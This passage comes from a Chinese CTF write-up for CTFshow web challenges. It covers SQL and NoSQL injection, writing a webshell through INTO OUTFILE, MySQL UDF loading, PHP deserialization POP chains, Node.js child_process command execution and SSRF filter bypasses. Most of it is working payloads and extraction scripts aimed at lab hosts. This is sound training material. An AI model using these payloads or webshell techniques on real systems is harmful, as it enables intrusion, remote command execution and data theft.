            'id': f"if(ascii(substr((select group_concat(flag) from flag),{i},1))<{j},sleep(0.03),1)#"
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.2:
            max = j
        else:
            min = j
```

为什么sleep设定的是0.03，但是超时时间是大于0.2呢

那是因为要对所有记录都算一遍 if

那我们怎么测试这个时间呢，这里放一个大佬的脚本

[Practice - CTFSHOW WEB入门 SQL注入篇](https://hextuff.dev/2021/07/29/ctfshow-web-getting-started-sql-injection/)

```
url = 'http://58e7b03f-3c20-48e0-a8f8-9a3efa102f6d.challenge.ctf.show:8080/api/delete.php'


def test2() -> float:
    rand = random.random()
    time_s = time.time()
    _ = requests.post(url,data={"id": f"if({1 if rand > 0.5 else 0},sleep(0.05),0)"})
    time_e = time.time()
    return (rand > 0.5, time_e - time_s)

print([test() for _ in range(30)])
```

我测出来的结果

```
[(False, 0.09313225746154785), (True, 1.087439775466919), (True, 1.599609375), (True, 1.6065845489501953), (True, 1.6024441719055176), (False, 0.5998048782348633), (False, 0.0730128288269043), (True, 1.0801937580108643), (True, 1.6085357666015625), (False, 0.1298365592956543), (True, 1.089057445526123), (False, 0.6771323680877686), (True, 1.0864779949188232), (True, 1.6023609638214111), (False, 0.07814288139343262), (False, 0.07692098617553711), (False, 0.07593393325805664), (True, 1.082731008529663), (False, 0.07544946670532227), (True, 1.606881856918335), (True, 1.609898567199707), (False, 0.08498406410217285), (True, 1.0778491497039795), (True, 1.0797111988067627), (True, 1.0858359336853027), (False, 0.08560538291931152), (False, 0.08359408378601074), (False, 0.08201932907104492), (False, 0.07815837860107422), (True, 1.085575819015503)]
```

在false和true之间选取一个合适的值即可，目的是能够进行区分，我这里选取了0.2


#### 文件注入

#### web242

```php
sql语句

  //备份表
  $sql = "select * from ctfshow_user into outfile '/var/www/html/dump/{$filename}';";
      
返回逻辑

  //无过滤

```

```
outfile的语法

SELECT ... INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        [export_options]

export_options:
    [{FIELDS | COLUMNS}
        [TERMINATED BY 'string']//分隔符
        [[OPTIONALLY] ENCLOSED BY 'char']
        [ESCAPED BY 'char']
    ]
    [LINES
        [STARTING BY 'string']
        [TERMINATED BY 'string']
    ]

----------------------------------------------------
“OPTION”参数为可选参数选项，其可能的取值有：

FIELDS TERMINATED BY '字符串'：设置字符串为字段之间的分隔符，可以为单个或多个字符。默认值是“\t”。

FIELDS ENCLOSED BY '字符'：设置字符来括住字段的值，只能为单个字符。默认情况下不使用任何符号。

FIELDS OPTIONALLY ENCLOSED BY '字符'：设置字符来括住CHAR、VARCHAR和TEXT等字符型字段。默认情况下不使用任何符号。

FIELDS ESCAPED BY '字符'：设置转义字符，只能为单个字符。默认值为“\”。

LINES STARTING BY '字符串'：设置每行数据开头的字符，可以为单个或多个字符。默认情况下不使用任何字符。

LINES TERMINATED BY '字符串'：设置每行数据结尾的字符，可以为单个或多个字符。默认值是“\n”。

```

漏洞的注入点是由于数据库的导出功能


根据这个我们可以写入一句话木马

payload:

```
filename=1.php' LINES STARTING BY '<?php eval($_POST[1]);?>'#
```


#### web243

```php
sql语句

  //备份表
  $sql = "select * from ctfshow_user into outfile '/var/www/html/dump/{$filename}';";
      
返回逻辑

  //过滤了php

```

尝试一下.user.ini文件包含

```
filename=.user.ini' lines starting by 'auto_prepend_file=1.txt\n'%23
filename=1.txt' lines starting by '<?=eval($_POST[1])?>'%23
```


#### 报错注入

[新手小白入门——SQL注入之报错注入_sql注入报错注入-CSDN博客](https://blog.csdn.net/2401_89233381/article/details/144308798)

#### web244

```
sql语句

  //备份表
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤
```

updatexml报错注入

payload

```
/api/?id=' or updatexml(1, concat(0x7e, database(), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select table_name from information_schema.tables where table_schema = database() limit 1, 1), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select column_name from information_schema.columns where table_schema = database() and table_name = 'ctfshow_flag' limit 1, 1), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select column_name from information_schema.columns where table_schema = database() and table_name = 'ctfshow_flag' limit 1, 1), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select substr(flag, 1, 30) from ctfshow_flag), 0x7e), 1)%23
#ctfshow{89982b11-5c7d-4215-a78
/api/?id=' or updatexml(1, concat(0x7e, (select substr(flag, 31, 30) from ctfshow_flag), 0x7e), 1)%23
#9-a9f8ecc8f1b1}
# 数据长度有限制，可以使用substr来截取


//ctfshow{89982b11-5c7d-4215-a789-a9f8ecc8f1b1}

```


#### web245

```php
sql语句

  
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤
  过滤updatexml
```

extractvalue报错注入

payload

```
查数据库名：id=' and (select extractvalue(1,concat(0x7e,(select database()))))%23

爆表名：id=' and (select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))))%23
//ctfshow_flagsa

爆字段名：id=' and (select extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name="ctfshow_flagsa"))))%23
//flag1

爆数据：
id=' and (select extractvalue(1,concat(0x7e,(select substr(group_concat(flag1),1,30) from ctfshow_flagsa))))%23
id=' and (select extractvalue(1,concat(0x7e,(select substr(group_concat(flag1),31,30) from ctfshow_flagsa))))%23

//ctfshow{41446106-c47e-434d-a0c0-16ee43375249}
```


#### web246

```php
sql语句

  
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤
  过滤updatexml extractvalue
```

floor报错注入

原理：[SQL注入报错注入之floor()报错注入原理分析_sql注入floor-CSDN博客](https://blog.csdn.net/miraclehw/article/details/129250360)

```
#获取表名
1' union select 1,count(*),concat(0x3a,0x3a,(select (table_name) from information_schema.tables where table_schema=database()  limit 1,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23

#获取列名
1' union select 1,count(*),concat(0x3a,0x3a,(select (column_name) from information_schema.columns where table_name='ctfshow_flags'  limit 1,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23

#获取数据
1' union select 1,count(*),concat(0x3a,0x3a,(select (flag2) from ctfshow_flags  limit 0,1),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a%23
```


#### web247

```php
sql语句

  
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤
  过滤updatexml extractvalue floor
```

这道题floor函数也被ban掉了

根据floor报错注入的原理，其实我们可以知道，之所以会出现错误主要是因为用floor对rand(0)*2进行取整，目的输出011011...的结果，而既然这样我们只需要找一个同样能进行取整的函数来代替floor就ok了

除了floor之外，我们还能使用round，ceil等

payload

```
查表 
1' union select 1,count(*),concat(0x3a,0x3a,(select (table_name) from information_schema.tables where table_schema=database()  limit 1,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
查列 
1' union select 1,count(*),concat(0x3a,0x3a,(select (column_name) from information_schema.columns where table_name='ctfshow_flagsa'  limit 1,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
查数据 
1' union select 1,count(*),concat(0x3a,0x3a,(select (`flag?`) from ctfshow_flagsa  limit 0,1),0x3a,0x3a,ceil(rand(0)*2))a from information_schema.columns group by a%23
```


#### web248

```php
sql语句

  
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤,
```

UDF注入

[ctfshow-web入门-sql注入-web248-UDF 注入_ctfshow web248-CSDN博客](https://blog.csdn.net/Myon5/article/details/142146339)

我们需要将 UDF 的动态链接库文件（xxx.dll文件）放到 MySQL 的检索目录下才能创建自定义函数，对于不同版本的 mysql，检索目录是不同的：

> MySQL < 5.0	导出路径随意；
> 5.0 <= MySQL< 5.1	需要导出至目标服务器的系统目录（如：c:/windows/system32/）
> 5.1 < MySQL	必须导出到MySQL安装目录下的lib\plugin文件夹下

堆叠注入查版本

```
/api/?id=0';select version();%23
```


大于5.1，接着要查目录路径

```
/api/?id=0';select @@plugin_dir;%23
```


```
/usr/lib/mariadb/plugin
```

拿到路径，我们接下来就可以传入我们的恶意so文件了

sqlmap中有已经写好的 udf 文件

如，lib_mysqludf_sys_64.so


但是由于get传参有长度限制，我们需要进行分段传参

放一个国外大佬的脚本，将udf文件分段上传后再进行合并即可

```
import requests
url="http://449c0852-2873-4a47-9eb4-a854915a6b40.challenge.ctf.show/api/"
udf=""
udfs=[]
for i in range(0,len(udf),5000):
    udfs.append(udf[i:i+5000])
#写入多个文件中
for i in udfs:
    url1=url+f"?id=1';SELECT '{i}' into dumpfile '/tmp/"+str(udfs.index(i))+".txt'%23"
    requests.get(url1)

#合并文件生成so文件
url2=url+"?id=1';SELECT unhex(concat(load_file('/tmp/0.txt'),load_file('/tmp/1.txt'),load_file('/tmp/2.txt'),load_file('/tmp/3.txt'))) into dumpfile '/usr/lib/mariadb/plugin/hack.so'%23"
requests.get(url2)

#创建自定义函数并执行恶意命令
requests.get(url+"?id=1';create function sys_eval returns string soname 'hack.so'%23")
r=requests.get(url+"?id=1';select sys_eval('cat /f*')%23")
print(r.text)
```


#### web249

```php
sql语句

  //无
  $user = $memcache->get($id);
      
返回逻辑

  //无过滤

```


payload:

```
?id[]=flag
```


#### web250

```php
sql语句

  $query = new MongoDB\Driver\Query($data);
  $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
      
返回逻辑

  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
```

[ctfshow-web入门-sql注入（web249-web253）nosql 注入_ctfshow web250-CSDN博客](https://blog.csdn.net/Myon5/article/details/142187219)


在这些操作符中，\$ne 就是我们在**重言式注入**中需要利用到的那个，它的作用是将不等于指定值的数据都查询出来，比如 \$ne=1 时就是将所有不等于 1 的数据都查询出来。

所以payload就是

```
username[$ne]=1&password[$ne]=1
```

环境好像有点问题（？）前两次一直查不出来


#### web251

```php
sql语句

  $query = new MongoDB\Driver\Query($data);
  $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
      
返回逻辑

  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
```

同样是

```
username[$ne]=1&password[$ne]=1
```


继续用上一题的 payload，返回 admin 的密码，但是这次的密码里没有 flag

可能flag在其他用户的密码里，我们禁用admin

```
username[$ne]=admin&password[$ne]=1
```


拿到flag


#### web252

```php
sql语句

  $query = new MongoDB\Driver\Query($data);
  $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
      
返回逻辑

  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
      
```

这题有很多不同的username

我们可以考虑采用正则匹配来筛选

```
username[$ne]=1&password[$regex]=ctfshow{
```

or

用$gt （大于）一直尝试知道拿到有flag的用户

```
username[$ne]=admin&password[$ne]=1
username[$gt]=admin1&password[$ne]=1
username[$gt]=admin2&password[$ne]=1
username[$gt]=admin3&password[$ne]=1
```

or

正则匹配去掉所有为admin开头的用户

```
username[$regex]=^[^admin].*$&password[$ne]=1
```


#### web253

```php
sql语句

  //sql
  db.ctfshow_user.find({username:'$username',password:'$password'}).pretty()
      
返回逻辑

  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
```

##### 方法一

[CTFSHOW WEB入门 SQL注入篇 - b477eRy - 博客园](https://www.cnblogs.com/recharging-runtime/p/15077477.html)

猜测到id为flag，直接布尔盲注拿到flag

```
import string

import requests

url = "http://5ce4ea0d-afb5-4f1c-9e65-626bdaa6e433.challenge.ctf.show:8080/api/"

letters = "{}-_" + string.ascii_lowercase + string.digits


def valid_pass(password: str) -> bool:
    data = {
        "username[$regex]": "flag",
        "password[$regex]": f"{password}.*"
    }
    response = requests.post(url, data=data)
    return "登陆成功" in response.json()["msg"]


result = ""

while True:
    for letter in letters:
        if valid_pass(result + letter):
            result += letter
            print(f"[*] result: {result}")
            break
```


##### 方法二

```
import requests, time, json


def brute(action, username=""):
    url = "http://44e163eb-3f69-4641-83b2-5499d9c0d5ed.challenge.ctf.show/api/"
    if action == "username":
        res = "^[^a]"  # admin1的password为ctfshow666...很明显不是flag，所以禁掉admin开头的用户
    else:
        res = "^ctfshow{"
    for j in range(30):
        flag = False
        for i in range(127):
            reg = res
            if chr(i) not in "0123456789abcdefghijklmnopqrstuvwxyz-{}:,_":
                continue
            n = chr(i)
            if chr(i) in "-{}:":
                n = "\\"+chr(i)
            print(chr(i))
            if action == "username":
                data = {"username[$regex]": f"{reg+n}", "password[$ne]": f"1"}
            else:
                data = {"username[$regex]": f"{username}$", "password[$regex]": f"{reg+n}"}
            while True:
                try:
                    r = requests.post(url, data=data, timeout=7)
                    break
                except TimeoutError:
                    time.sleep(0.1)
                except KeyboardInterrupt:
                    exit(0)
            try:
                resp = json.loads(r.text)
            except:
                resp = None
                continue
            if resp["msg"] == "\u767b\u9646\u6210\u529f":
                res += chr(i)
                flag = True
                break
        if not flag:
            break
        print(res)
    return res


if __name__ == '__main__':
    username = brute("username")
    print(f"用户名为: {username}")
    password = brute("password", username)
    print(f"用户名: {username}\n密码: {password}")
```


### 反序列化

#### PHP的魔法方法

PHP 将所有以 __（两个下划线）开头的类方法保留为魔术方法。所以在定义类方法时，除了上述魔术方法，建议不要以 __ 为前缀。 常见的魔法方法如下：

```scss
__construct()，类的构造函数

__destruct()，类的析构函数

__call()，在对象中调用一个不可访问方法时调用

__callStatic()，用静态方式中调用一个不可访问方法时调用

__get()，获得一个类的成员变量时调用

__set()，设置一个类的成员变量时调用

__isset()，当对不可访问属性调用isset()或empty()时调用

__unset()，当对不可访问属性调用unset()时被调用。

__sleep()，执行serialize()时，先会调用这个函数

__wakeup()，执行unserialize()时，先会调用这个函数

__toString()，类被当成字符串时的回应方法

__invoke()，调用函数的方式调用一个对象时的回应方法

__set_state()，调用var_export()导出类时，此静态方法会被调用。

__clone()，当对象复制完成时调用

__autoload()，尝试加载未定义的类

__debugInfo()，打印所需调试信息
```

#### web254

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 19:29:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        if($this->username===$u&&$this->password===$p){
            $this->isVip=true;
        }
        return $this->isVip;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = new ctfShowUser();
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

看着很长，实际上审一下代码发现账号和密码已经放出来了

```
    public $username='xxxxxx';
    public $password='xxxxxx';
```

poc

```
/?username=xxxxxx&password=xxxxxx
```

#### web255

相比上一题只是把

```
$user = new ctfShowUser();
```

改为了

```
$user = unserialize($_COOKIE['user']);
```

区别不大只需要通过反序列化的方式实例化ctfShowUser()即可

```php
$user = new ctfShowUser();
$user->isVip=true; //不能漏
echo urlencode(serialize($user));
```

传参拿到flag

#### web256

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 19:29:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            if($this->username!==$this->password){
                    echo "your flag is ".$flag;
              }
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

相比上一道题多了个

```
$this->username!==$this->password
```

区别不大

poc

```php
$user = new ctfShowUser();
$user->isVip=true;
$user->username="okok";
echo urlencode(serialize($user));
```

传参拿到flag

#### web257

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 20:33:07
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    private $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);
    $user->login($username,$password);
}
```

这道题存在一个后门方法

我们想办法走到后面方法这一步，并通过eval执行命令即可得到flag

poc

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 20:33:07
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'backDoor';

    public function __construct(){
        $this->class=new backDoor();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    private $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code ='system("cat fl*");';
    public function getInfo(){
        eval($this->code);
    }
}


$user = new ctfShowUser();
echo urlencode(serialize($user));

```

#### web258

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 21:38:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
}
```

这道题相对于上一道题需要正则表达式进行绕过

poc

```php
<?php
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';
 
    public function __construct(){
        $this->class=new backDoor();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }
 
}
 
class backDoor{
    public $code='system("tac ./flag.php");';
    public function getInfo(){
        eval($this->code);
    }
}
$a = serialize(new ctfShowUser());
$a = str_replace('O:','O:+',$a);
echo urlencode($a);
```

我们可以通过+绕过

#### web289

flag.php

```php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
	die('error');
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);
	}
}
```


```php
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

根据题目提示存在flag.php页面且只允许

### node.js

#### web334

login.js

```javascript
var express = require('express');
var router = express.Router();
var users = require('../modules/user').items;
 
var findUser = function(name, password){
  return users.find(function(item){
    return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
  });
};

/* GET home page. */
router.post('/', function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var sess = req.session;
  var user = findUser(req.body.username, req.body.password);
 
  if(user){
    req.session.regenerate(function(err) {
      if(err){
        return res.json({ret_code: 2, ret_msg: '登录失败'});        
      }
       
      req.session.loginUser = user.username;
      res.json({ret_code: 0, ret_msg: '登录成功',ret_flag:flag});              
    });
  }else{
    res.json({ret_code: 1, ret_msg: '账号或密码错误'});
  }  
  
});

module.exports = router;

```

user.js

```javascript
module.exports = {
  items: [
    {username: 'CTFSHOW', password: '123456'}
  ]
};
```

审计一下代码看到已经给出了明文的账号密码

但是要注意这里

```
return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
```

这里要去输入的账号不能为CTFSHOW，且输入的用户名转换为大写后与明文账号相同即可

那就很简单了，输入小写的ctfshow和密码123456即可得到flag



#### web335



查看源代码得到hint



看到eval猜测是命令执行，js中的eval函数的利用与php中的有所不同

Node.js中的chile_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令。

payload:

```
/?eval=require('child_process').execSync('ls').toString()
/?eval=require('child_process').execSync('cat fl00g.txt').toString()

require('child_process').spawnSync('ls',['./']).stdout.toString()
require('child_process').spawnSync('cat',['fl00g.txt']).stdout.toString()

global.process.mainModule.constructor._load('child_process').execSync('ls',['.']).toString()
```


那为什么下面的方法会回显[object object]呢？

```
require('child_process').exec('calc'); //这题不知道为什么exec用不了
```

> 当你在 Web 界面通过某种命令注入手段调用 Node.js的 child_process 时，如果希望直接在页面上看到命令输出结果，execsync 会更直观。它会阻塞直到命令执行结束，并将结果返回给你的代码，你能直接以字符串形式处理和展示。而 exec则需要通过回调来拿结果，如果没写回调或没正确处理，就只会看到一个[object object]的返回。


#### web336

这题跟上一题差不多，但是貌似把execSync办了

用其他方法即可

```
require('child_process').spawnSync('ls',['./']).stdout.toString()
require('child_process').spawnSync('cat',['fl00g.txt']).stdout.toString()

global.process.mainModule.constructor._load('child_process').execSync('ls',['.']).toString()
```


#### web337

```js
var express = require('express');
var router = express.Router();
var crypto = require('crypto');

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var flag='xxxxxxx';
  var a = req.query.a;
  var b = req.query.b;
  if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);
  }else{
  	res.render('index',{ msg: 'tql'});
  }
  
});

module.exports = router;
```

 

### SSRF

#### web351

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?>
```

没有过滤，直接读文件

Payload:

```
url=127.0.0.1/flag.php
url=localhost/flag.php
```

#### web352

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

这道题限制了只能使用http和https协议

同时也添加了过滤

```
if(!preg_match('/localhost|127.0.0/'))
```

缺省法

payload：

```
url=http://127.1/flag.php

url=http://0/flag.php
//windows中解析为0.0.0.0
//linux解析为127.0.0.1
```

or

使用十进制绕过

payload：

```
url=http://2130706433/flag.php
```

#### web353

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

过滤

```
!preg_match('/localhost|127\.0\.|\。/i', $url)
```

这题依旧可以用上题方法解决

其他payload：

```
// 127.0.0.1 ~ 127.255.255.254 都表示 localhost

url=http://127.255.255.254/flag.php
```

127开头都会被解析为localhost

#### web354

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

这道题的1和0都被过滤了，我们可以用dns重定向的方法来绕过

网络上存在一个域名sudo.cc会重定向到127.0.0.1

payload:

```
url=http://sudo.cc/flag.php
```

其他方法

可以用自己的域名进行dns重定向

或者通过 http://ceye.io/

#### web355

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

这道题对host的长度进行了限制，但是由于没有进行过滤我们可以用0来代替127.0.0.1

payload：

```
url=http://0/flag.php
```

or

```
url=http://127.1/flag.php
```


#### web356

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=3)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

payload:

```
url=http://0/flag.php
```

#### web357

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$ip = gethostbyname($x['host']);
echo '</br>'.$ip.'</br>';
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}


